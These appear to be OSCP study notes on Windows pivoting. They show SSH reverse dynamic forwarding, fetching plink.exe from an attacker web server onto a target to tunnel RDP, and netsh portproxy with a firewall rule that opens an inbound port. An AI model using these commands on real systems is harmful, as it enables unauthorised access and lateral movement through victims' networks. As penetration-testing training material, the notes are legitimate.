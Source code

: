 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/10. Port Redirection & Tunneling/2. Windows Port Forwarding/"}
---
```


- OpenSSH comes with Windows since April 2018
- On machines with SSH installed you find: scp.exe, sftp.exe, ssh.exe, etc. in %systemdrive%\\Windows\\System32\\OpenSSH
-----
## SSH Remote Dynamic Port Forwarding:
1. Start SSH server on attacker machine:
```bash
sudo systemctl start ssh
```
2. Locate ssh.exe in cmd on target:
```powershell
where ssh
```
3. Check version of ssh:
```powershell
ssh.exe -V
```
4. Set up port forwarding:
```bash
ssh -N -R 2345 crabfeather@192.168.45.180
```
5. Use with proxychains and win!

-----------
## Plink.exe Remote Port Forwarding + RDP binding:
1. Download the plink.exe binary to the target:
``` bash
#Start server:
sudo systemctl start apache2

#Download binary:
powershell wget -Uri http://192.168.45.X/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
2. Start port forwarding (use Windows' loopback IP + its listening RDP port to be able to use RDP from kali):
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:2345:<outip>:<outport> <kali-ip>
```
Example: Port forwarding using Windows' loopback IP + its listening RDP port to be able to use RDP from kali:
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:4455:127.0.0.1:3389 <kali-ip>
```

------------------
## Netsh local port forwarding + firewall poking:
- Requires Administrative privs
1. Set up port forwarding:
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.230.64 connectport=22 connectaddress=10.4.230.215
```
2. Confirm it is working:
```powershell
netsh interface portproxy show all
```
3. Poke hole in firewall outwards:
```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.230.64 localport=2222 action=allow
```
4. Delete rules afterwards:
```powershell
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
